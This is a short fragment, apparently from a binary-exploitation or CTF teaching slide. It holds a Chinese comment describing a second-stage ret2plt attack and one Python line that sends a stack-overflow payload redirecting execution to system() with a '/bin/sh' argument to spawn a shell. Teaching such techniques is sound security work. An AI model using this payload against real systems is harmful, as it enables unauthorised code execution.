

# 然后第二次利用就是ret2plt
io.writeline("a" * (0x88 + 4) + l32(system_addr) + "aaaa" + l32(binsh_addr))